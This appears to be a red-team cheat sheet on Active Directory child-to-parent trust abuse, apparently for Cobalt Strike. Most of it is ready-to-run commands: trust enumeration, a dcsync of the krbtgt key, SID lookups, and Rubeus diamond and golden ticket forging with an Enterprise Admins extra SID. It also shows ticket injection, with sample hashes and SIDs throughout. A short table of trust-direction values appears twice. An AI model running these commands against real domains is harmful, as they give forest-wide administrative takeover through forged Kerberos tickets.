 
| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

| Value | Trust Direction                 |
| ----- | ------------------------------- |
| 0     | `TRUST_DIRECTION_DISABLED`      |
| 1     | `TRUST_DIRECTION_INBOUND`       |
| 2     | `TRUST_DIRECTION_OUTBOUND`      |
| 3     | `TRUST_DIRECTION_BIDIRECTIONAL` |

```powershell
39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b

execute-assembly ~/opt/Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-1470357062-2280927533-300823338-519 /krbkey:39610acedf7a66db295ee28263e7ad75234ae7884dbde20a4890bf97f7b8872b /nowrap
```
##### Child to Parent Abuse

Enumerate trusts in place
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

Obtain krbtgt AES256 hash of the child domain
```powershell
dcsync dublin.contoso.com DUBLIN\krbtgt

ab41d2c550af7cc84b40fd3b69daeab67e1662f7bf662fd1572dd1fa9e949a56
S-1-5-21-2958544638-1589230383-838459903
S-1-5-21-1076548718-1118529210-2193484809
```

Obtain child domain SID and parent domain SID
```powershell
ldapsearch (objectClass=domain) --attributes objectSid

ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
```

Create diamond ticket (OPSEC SAFE) or a golden ticket offline - `/sids` = child domain
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /sids:S-1-5-21-1076548718-1118529210-2193484809-519 /krbkey:ab41d2c550af7cc84b40fd3b69daeab67e1662f7bf662fd1572dd1fa9e949a56 /nowrap

C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[Child SID] /sids:[Parent EA GROUP SID] /aes256:[Child KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden
```

Inject ticket into current session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:

kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]
```

Enum
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor --dn DC=contoso,DC=com
```